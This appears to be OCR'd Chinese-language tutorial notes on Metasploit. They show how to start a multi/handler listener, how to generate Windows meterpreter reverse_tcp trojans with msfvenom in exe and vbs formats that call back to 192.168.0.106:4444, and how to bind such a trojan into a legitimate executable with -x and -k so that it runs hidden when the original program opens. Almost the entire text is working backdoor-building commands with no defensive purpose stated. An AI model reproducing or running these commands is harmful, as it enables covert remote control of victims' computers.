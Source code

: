 

### x64-windows

```
use exploit/multi/handler   # 使用这个模块
show payloads   # 查看模块下的所有payload
set payload windows/x64/meterpreter/reverse_tcp   # 为当前的模块设置payload
run/exploit     # 开始监听


使用msfvenom命令生成对应的木马文件：
msfvenom -l format     # 查看木马所支持的文件类型

msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -a x86 --platform windows -o ./meter_re_tcp.exe lhost=192.168.0.106 lport=4444  # 生成木马文件
```



为了方便，也可以将上面生成木马的命令写在一个文件当中：

```shell
ip=192.168.0.106
port=4444
arch=x86
platform=windows
format=vbs    # file format
payload=windows/meterpreter/reverse_tcp

# use exploit/multi/handler
out=../../backdoors/meter_re_tcp_vbs
msfvenom -p $payload lhost=$ip lport=$port -f $format -a $arch --platform $platform -o $out
```



也可以将msfconsole中的一些设置写入文件当中，在使用的使用直接使用`msfconsole -r filename`进行读取即可。

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.0.106
set lport 4444
run
```



### msf捆绑木马

```
msfvenom -x    # 将木马绑定到一个可执行文件上面，使用msfvenom查看详细信息

脚本如下：
ip=192.168.0.106
port=4444
arch=x86
platform=windows
format=exe    # file format
payload=windows/meterpreter/reverse_tcp
x=/root/桌面/御剑后台扫描工具.exe   # 如果提示...entry point时，这是可以添加一个-k来解决这个问题，-k原理是在这个软件打开的同时会开一个新的线程来执行我们所捆绑的木马文件，原来的软件不会受到影响。
# use exploit/multi/handler
out=../../backdoors/meter_re_x_yijian.exe
msfvenom -p $payload lhost=$ip lport=$port -x $x -f $format -a $arch --platform $platform -o $out
```
